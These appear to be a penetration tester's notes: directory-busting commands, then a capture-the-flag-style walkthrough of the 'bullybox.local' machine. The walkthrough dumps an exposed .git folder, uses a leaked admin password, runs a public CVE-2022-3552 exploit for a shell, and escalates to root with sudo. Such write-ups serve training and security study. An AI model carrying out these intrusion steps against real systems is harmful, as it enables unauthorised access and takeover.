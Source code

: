 
# Mapping
**robots.txt:**
```

```
**.svn:**
```

```
**.DS_STORE**
```

```

# Directory Busting
```
gobuster dir -u ${ip} -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
dirbuster
```
```
feroxbuster -u http://host.domain.tld:80/ -x php -C 404 -A --wordlist '/usr/share/seclists/Discovery/Web-Content/directory-list-2.3-big.txt' -B --auto-tune
```
# PHP

**Check phpinfo or phpmyadmin:**


Running dirb we notice:
![](../attachment/4f2704413b8a3e675fa0ac78f9c19287.png)
There is a git directory

Using git-dumper:
```
git-dumper http://bullybox.local/.git git
```

There is bb-config.php:
![](../attachment/c841e6b0e0b6d92bd9a12d27a5d7773d.png)

We can login at /bb-admin:
![](../attachment/349952d56c1977ac3b0e4a071139f24d.png)

Logging in with `admin@bullybox.local : Playing-Unstylish7-Provided`
![](../attachment/a86c11ac5c80194c27ae4b8394546df9.png)

Now we can us this [exploit](https://github.com/kabir0x23/CVE-2022-3552)
```
python3 CVE-2022-3552.py -d http://bullybox.local/ -u admin@bullybox.local -p 'Playing-Unstylish7-Provided'
```
After changing the ip:
![](../attachment/06e37356d2f4432a5608c90713686abf.png)

Now we get a shell:
![](../attachment/4896168281e03496448f7775734358a0.png)


Now check id:
![](../attachment/b72d54aaef5892b18a5a8826aaf46eca.png)
We are sudo group so with `sudo su`
